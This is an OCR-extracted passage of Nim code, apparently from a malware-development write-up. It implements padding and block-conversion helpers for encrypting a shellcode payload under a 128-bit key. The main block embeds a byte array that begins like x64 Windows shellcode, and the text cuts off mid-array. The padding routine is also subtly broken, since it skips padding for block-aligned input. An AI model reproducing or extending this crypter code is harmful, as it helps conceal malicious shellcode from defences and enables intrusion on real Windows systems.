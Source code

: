 ```nim
proc padData(data: seq[byte], blockSize: int): seq[byte] =
  let padding = blockSize - (data.len mod blockSize)
  if padding == blockSize: return data  # No padding needed
  result = data & newSeq[byte](padding)
  for i in 0..<padding:
    result[data.len + i] = byte(padding)  # PKCS#7 style padding
```

and unpadding:    

```nim
proc unpadData(data: seq[byte]): seq[byte] =
  if data.len == 0: return data
  let padding = int(data[^1])
  if padding > data.len: return data  # Invalid padding
  result = data[0 ..< data.len - padding]
```

Also, implemented helper functions, byte-to-word conversion:    

```nim
proc bytesToUint32(data: seq[byte]): seq[array[2, uint32]] =
  if data.len mod 8 != 0:
    raise newException(ValueError, "Data length must be multiple of 8 bytes")
  
  result = newSeq[array[2, uint32]](data.len div 8)
  for i in 0 ..< result.len:
    let offset = i * 8
    result[i][0] = cast[uint32](data[offset]) or (cast[uint32](data[offset+1]) shl 8) or 
                  (cast[uint32](data[offset+2]) shl 16) or (cast[uint32](data[offset+3]) shl 24)
    result[i][1] = cast[uint32](data[offset+4]) or (cast[uint32](data[offset+5]) shl 8) or 
                  (cast[uint32](data[offset+6]) shl 16) or (cast[uint32](data[offset+7]) shl 24)
```

and word-to-byte conversion logic:    

```nim
proc uint32ToBytes(data: seq[array[2, uint32]]): seq[byte] =
  result = newSeq[byte](data.len * 8)
  for i in 0 ..< data.len:
    let offset = i * 8
    result[offset]   = byte(data[i][0] and 0xFF)
    result[offset+1] = byte((data[i][0] shr 8) and 0xFF)
    result[offset+2] = byte((data[i][0] shr 16) and 0xFF)
    result[offset+3] = byte((data[i][0] shr 24) and 0xFF)
    result[offset+4] = byte(data[i][1] and 0xFF)
    result[offset+5] = byte((data[i][1] shr 8) and 0xFF)
    result[offset+6] = byte((data[i][1] shr 16) and 0xFF)
    result[offset+7] = byte((data[i][1] shr 24) and 0xFF)
```

and finally, main execution flow:    

```nim
when isMainModule:
  # define a 128-bit key (4 x uint32)
  let key: array[4, uint32] = [0x01234567'u32, 0x89abcdef'u32, 0xfedcba98'u32, 0x76543210'u32]

  # define the payload
  var data: seq[byte] = @[
    byte 0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0,
    0x0, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
    0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
    0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
    0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2,
    0x2c, 0x20, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52,
    0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
    0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
```